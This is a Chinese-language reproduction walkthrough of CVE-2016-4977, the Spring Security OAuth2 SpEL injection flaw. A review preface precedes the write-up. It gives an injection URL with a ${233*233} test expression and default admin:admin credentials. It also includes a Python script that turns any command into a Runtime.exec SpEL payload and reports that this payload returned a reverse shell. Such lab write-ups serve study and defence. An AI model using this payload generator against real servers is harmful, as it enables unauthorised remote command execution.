


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：列 OAuth 2.0.0–2.0.9、1.0.0–1.0.5；需登录，实验默认账号不是通用凭据

代码与实验材料：算术表达式与编码生成器完整，具体请求及结果依图片

来源证据范围：没有原始作者或公告引用；仅外部 Runtime 编码网站

- **证据待核（1）**：实验域名和来源未规范；依据：请求使用 www.0-sec.org，应转换本地占位目标并补 Vulhub 原始来源。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（2）**：图片标记残留重复路径；依据：每个图片后重复资源目录字符串。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2016-4977）Spring Security OAuth2 远程命令执行漏洞
========================================================

一、漏洞简介
------------

Spring Security OAuth 是为 Spring
框架提供安全认证支持的一个模块。在其使用 whitelabel views
来处理错误时，由于使用了Springs Expression Language
(SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

二、漏洞影响
------------

Spring Security OAuth 2.0.0版本至2.0.9版本Spring Security OAuth 1.0.0版本至1.0.5版本中

三、复现过程
------------

访问`http://www.0-sec.org:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

SpringSecurityOAuth2远程命令执行漏洞/media/rId24.png)

然后，我们使用poc.py来生成反弹shell的POC（注意：\[Java反弹shell的限制与绕过方式要在这个网站进行转码\]

    http://www.jackson-t.ca/runtime-exec-payloads.html
    CVE-2016-4977.py
    #!/usr/bin/env python

    message = input('Enter message to encode:')

    poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

    for ch in message[1:]:
       poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

    poc += ')}'

    print(poc)

SpringSecurityOAuth2远程命令执行漏洞/media/rId25.png)

如上图，生成了一大串SpEL语句。附带上这个SpEL语句，访问成功弹回shell：

SpringSecurityOAuth2远程命令执行漏洞/media/rId26.png)
